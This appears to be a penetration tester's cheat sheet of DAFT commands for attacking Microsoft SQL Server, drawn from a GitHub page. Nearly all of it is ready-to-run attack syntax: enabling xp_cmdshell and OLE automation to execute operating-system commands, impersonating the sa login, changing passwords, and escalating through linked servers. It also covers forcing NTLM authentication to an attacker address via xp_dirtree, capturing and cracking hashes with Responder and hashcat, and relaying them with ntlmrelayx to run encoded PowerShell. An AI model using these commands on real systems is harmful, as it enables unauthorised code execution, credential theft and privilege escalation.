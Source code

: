 # DAFT Commands

### Generic Info

```
daft.exe -i <SQL SERVER> -d master -m query -q "select system_user;"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT LEFT(@@version, CHARINDEX(' - ', @@version)) ProductName;"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT IS_SRVROLEMEMBER('sysadmin');"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT IS_SRVROLEMEMBER('sysadmin');"
```

### List Databases and Owners

```
DAFT.exe -i <SQL SERVER> -d master -m Database | findstr "DatabaseName && DatabaseOwner"
```

### Checks for some Excessive Privileges, only found Database Ownership Chaining

```
DAFT.exe -i <SQL SERVER> -d master -m AuditPrivDbChaining
```

### Basic server information

```
DAFT.exe -i <SQL SERVER> -d master -m ServerInfo
```

### Lists links

```
DAFT.exe -i <SQL SERVER> -d master -m ServerLink
```

### Link crawling

```
DAFT.exe -i <SQL SERVER> -d master -m ServerLinkCrawl
```

Lists granted permissions

```
DAFT.exe -i <SQL SERVER> -d master -m ServerPriv
```

### Lists sysadmins

```
DAFT.exe -i <SQL SERVER> -d master -m ServerRoleMember
```

### Using specific DB Creds

```
daft.exe -i <SQL SERVER> -d master -e USER:PASSWORD -m query -q "EXEC ('xp_cmdshell ''whoami'';') AT <SQL SERVER>;"
```

### Impersonation

```
daft.exe -i <SQL SERVER> -d msdb -m query -q "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```

### Found this uncertain of output exactly

```
daft.exe -i <SQL SERVER> -d music -m query -q "SELECT grantee_principal.name AS WhoCanImpersonate ,grantee_principal.type_desc AS ImpersonatorType ,sp.name AS WhoCanTheyImpersonate ,sp.type_desc AS ImpersonateeLoginType FROM sys.server_permissions AS prmssn INNER JOIN sys.server_principals AS sp ON sp.principal_id = prmssn.major_id AND prmssn.class = 101 INNER JOIN sys.server_principals AS grantee_principal ON grantee_principal.principal_id = prmssn.grantee_principal_id WHERE prmssn.state = 'G'"
```

### Change a users password

```
daft.exe -i <SQL SERVER> -d master -m query -q "ALTER LOGIN sqlUsername WITH PASSWORD = N'qwer1234QWER!@#$';"
```

### OLE Stored Procedure

```
daft.exe -i <SQL SERVER> -d master -e 'USERNAME:PASSWORD' -m query -q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null,'ping 192.168.49.59'"
```

### XP cmd shell

```
daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC sp_configure 'show advanced options', 1; reconfigure;'"

daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC sp_configure 'xp_cmdshell', 1; reconfigure;'"

daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC xp_cmdshell 'whoami';"
```

### COMMAND EXECUTION - LOCAL - XP COMMAND SHELL

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell ipconfig;"
```

### UNC Injection

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master..xp_dirtree \"\\192.168.X.Y\test\";"
```

#### Capture NTLM Relay hash

Set up responder ad get NTML relay hash

```
responder -I tun0
```

crack it with hashcat

```
 hashcat -m 5600 sqlsvc_hash.txt /usr/share/wordlists/rockyou.txt --force
```

#### Relay hash for code execution

impacket ntlmrelay

```
python3 ntlmrelayx.py --no-http-server -smb2support -t 172.16.98.152 -c 'powershell -enc <ENDOCDED COMMAND>'
```

### DAFT Built in CMD Execution

```
daft.exe -i "<SQL SERVER>" -m OSCmd -q whoami
```

### Linked PrivEsc

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''xp_cmdshell ''''whoami'''';'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"
```

### Linked Servers XP cmd shell

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT <SQL SERVER>;"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT <SQL SERVER>;"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('xp_cmdshell ''" + command + "'';') AT <SQL SERVER>;"
```

### Linked Servers xp cmd shell - openquery

```
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;')"

daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;')"

daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC master..xp_cmdshell ''whoami'';')"

**
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT * FROM OPENQUERY([<SQL SERVER>],'Select @@Servername SYSTEM_USER')"
```

### Add Linkded Login

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master.dbo.sp_addlinkedserver @server = N'<SQL SERVER>', @provider=N'SQLNCLI', @datasrc=N'<SQL SERVER>';" 

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master.dbo.sp_addlinkedsrvlogin @rmtsrvname = 
N'<SQL SERVER>', @locallogin = NULL , @useself = N'True', @rmtuser=N'asdf',@rmtpassword=N'asdfasdfasdf';;"
```

### ALTER Role cmd

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('ALTER ROLE db_owner ADD MEMBER aids;') AT <SQL SERVER>;"
```

### Enable RPC

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXECUTE AS LOGIN = 'sa'; EXEC sp_serveroption '<SQLSERVER>', 'rpc out', 'true';EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT <SQLSERVER>;"
```
